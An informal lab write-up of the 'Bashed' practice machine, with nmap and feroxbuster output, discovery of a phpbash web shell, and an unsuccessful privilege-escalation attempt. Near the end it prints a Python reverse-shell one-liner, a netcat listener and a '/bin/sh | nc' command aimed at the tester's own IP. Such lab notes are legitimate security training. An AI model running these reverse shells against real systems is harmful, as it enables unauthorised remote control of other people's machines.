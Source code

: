 ![](20230211124736.png)  

it mentions phpbash developed at arrexel
https://github.com/Arrexel/phpbash

```
└─$ nmap -sC -sV -Pn 10.10.10.68
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-11 12:43 EST
Stats: 0:02:04 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 30.03% done; ETC: 12:50 (0:04:51 remaining)
Nmap scan report for 10.10.10.68
Host is up (0.35s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE    SERVICE        VERSION
80/tcp   open     http           Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
3370/tcp filtered satvid-datalnk

```

we can http://10.10.10.68/uploads/

in the images we see that ther re is this directory


feroxbuster --url http://10.10.10.68/uploads -x php

```
┌──(kali㉿kali)-[~]
└─$ feroxbuster --url http://10.10.10.68/uploads -x php

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.68/uploads
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.3
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [php]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
301      GET        9l       28w      312c http://10.10.10.68/uploads => http://10.10.10.68/uploads/
403      GET       11l       32w      290c http://10.10.10.68/.php
[####################] - 8m     60000/60000   0s      found:2       errors:89     
[####################] - 8m     60000/60000   113/s   http://10.10.10.68/uploads/ 

```

![](20230211130654.png)  

no permission to upload it says


after some more busting found at

![](20230211133302.png)  

now we need to find vuln in the code

![](20230211140234.png)  

problem with uploading shell

but user flag gotten easily

![](20230214120019.png)  

python shell

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.19",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

`nc -lvp 1235`


/var/www/html/dev# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL

python doesn'tseem to run

in my case however nc  return connect momentarily

/bin/sh | nc 10.10.14.19 1235

trying all weird combinations but unableto get the script accross

so bashed shall remain unconquered.

looking for more ad machines. sure.




